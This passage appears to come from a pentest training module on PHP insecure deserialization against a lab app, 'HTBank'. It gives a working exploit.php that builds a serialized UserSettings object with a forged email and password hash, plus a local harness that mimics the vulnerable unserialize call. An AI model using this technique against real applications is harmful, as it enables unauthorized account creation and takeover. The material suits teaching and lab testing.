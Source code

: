 ```php
        $this->setProfilePic($ProfilePic);
    }
...

```

With this knowledge, we should be able to generate serialized `UserSettings` objects with arbitrary details, and since `HTBank GmbH` told us specifically that you can't create user accounts with `@htbank.com` email addresses, this is the first thing we will try to do.

First, we will create a file called `UserSettings.php` and copy the contents of `app/Helpers/UserSettings.php` into this. Next, we will create another file named `exploit.php` in the same directory with the following contents to generate a serialized `UserSettings` object with the email address `[email protected]` and password `pentest`.

```php
<?php
include('UserSettings.php');

echo base64_encode(serialize(new \App\Helpers\UserSettings('pentest', '[email protected]', '$2y$10$u5o6u2EbjOmobQjVtu87QO8ZwQsDd2zzoqjwS0.5zuPr3hqk9wfda', 'default.jpg')));

```

We can run this PHP file locally and get our serialized object:

```shell
php exploit.php

TzoyNDoiQXBwXEhlbHBlcnNcVXNlclNldHRp...SNIP...WMiO3M6MTE6ImRlZmF1bHQuanBnIjt9

```

#### Testing Locally

Before we run any attacks against the real target, since we have the source code, it's a good idea to test the attack `locally` first to double-check that everything works as expected.

To avoid having to install many dependencies and set up a MySQL server, we will isolate the targeted functionality we need to test. In this case our target function is `app/Http/Controllers/HTController.php:handleSettingsIE()`, where `unserialize` is called.

We can create a file locally called `target.php` and put the (slightly modified) contents of `handleSettingsIE()` in, specifically :

```php
<?php

include('UserSettings.php');

// else if (isset($request['import']) && !empty($request['settings'])) {
//   $userSettings = unserialize(base64_decode($request['settings']));
$userSettings = unserialize(base64_decode($argv[1]));

//   $user = Auth::user();
//   $user->name = $userSettings->getName();
//   $user->email = $userSettings->getEmail();
//   $user->password = $userSettings->getPassword();
//   $user->profile_pic = $userSettings->getProfilePic();
//   $user->save();
print("\n");
print('$user->name = ' . $userSettings->getName() . "\n");
print('$user->email = ' . $userSettings->getEmail() . "\n");
print('$user->password = ' . $userSettings->getPassword() . "\n");
print('$user->profile_pic = ' . $userSettings->getProfilePic() . "\n");
print("\n");

//   Session::flash('ie-message', "Imported settings for '" . $userSettings->getName() . "'");
```